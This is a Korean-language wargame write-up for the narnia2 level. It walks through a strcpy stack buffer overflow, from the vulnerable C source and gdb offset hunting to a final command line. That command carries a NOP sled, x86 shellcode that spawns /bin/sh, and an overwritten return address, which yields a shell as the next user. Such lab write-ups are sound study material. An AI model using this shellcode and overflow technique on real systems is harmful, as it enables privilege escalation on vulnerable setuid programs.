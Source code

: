 ## 1. 문제 확인
- ID : narnia2
- Target : /narnia/narnia2
- Flag : /etc/narnia_pass/narnia3
```
narnia2@gibson:/narnia$ ./narnia2
Usage: ./narnia2 argument
narnia2@gibson:/narnia$ ./narnia2 aaa
aaanarnia2@gibson:/narnia$
```

<br/><br/>
## 2. 취약점 분석
### 2.1 Source Code
- 프로그램 실행 인자 값을 strcpy() 함수로 buf에 복사한 후 다시 buf를 출력함
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```
### 2.2 Code 분석
- buf 사이즈는 128byte이고, strcpy()로 복사할 때 사이즈 제한이 없으므로 128byte 이상 복사하면 buffer overflow가 발생
```
	char buf[128];

    ...
    strcpy(buf,argv[1]);
```

<br/><br/>
## 3. Exploit
- 프로그램 실행 인자값으로 140글자를 입력해보면 Segmentation fault 발생
```
	narnia2@gibson:/narnia$ ./narnia2 `echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"`
	Segmentation fault
	narnia2@gibson:/narnia$
```
- gdb로 실행하여 buf 사이즈 128byte에 추가로 12byte를 입력하여 오류가 발생되는 메모리 위치 확인해 보면, 0x43434343(CCCC) 에서 오류가 발생되었으므로 buf 위치로 부터 132byte 떨어진 위치에 리턴주소가 있음
```
	(gdb) r `echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD"`
	Starting program: /narnia/narnia2 `echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD"`
	Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
	[Thread debugging using libthread_db enabled]
	Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

	Program received signal SIGSEGV, Segmentation fault.
	0x43434343 in ?? ()
	(gdb)
```
- 오류발생 시점에 스택 메모리를 확인해보면 입력값이 0xffffd550 ~ 0xffffd5d0 에 위치
```
	(gdb) x/250x $esp
        ...
        0xffffd530:     0x00000000      0x00000000      0x00000000      0x2f000000
	0xffffd540:     0x6e72616e      0x6e2f6169      0x696e7261      0x41003261
	0xffffd550:     0x41414141      0x41414141      0x41414141      0x41414141
	0xffffd560:     0x41414141      0x41414141      0x41414141      0x41414141
	0xffffd570:     0x41414141      0x41414141      0x41414141      0x41414141
	0xffffd580:     0x41414141      0x41414141      0x41414141      0x41414141
	0xffffd590:     0x41414141      0x41414141      0x41414141      0x41414141
	0xffffd5a0:     0x41414141      0x41414141      0x41414141      0x41414141
	0xffffd5b0:     0x41414141      0x41414141      0x41414141      0x41414141
	0xffffd5c0:     0x41414141      0x41414141      0x41414141      0x42414141
	0xffffd5d0:     0x43424242      0x44434343      0x00444444      0x4c454853
	0xffffd5e0:     0x622f3d4c      0x622f6e69      0x00687361      0x3d445750
```
- 대략적인 위치(0xffffd570)를 리턴주소로 잡고, [NOP(0x90) + 쉘코드] 132byte + [리턴주소] 4byte 를 인자값으로 실행하면 쉘이 뜸
```
	narnia2@gibson:/narnia$ ./narnia2 `echo -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80\x70\xd5\xff\xff"`
	$ id
	uid=14003(narnia3) gid=14002(narnia2) groups=14002(narnia2)
	$
```
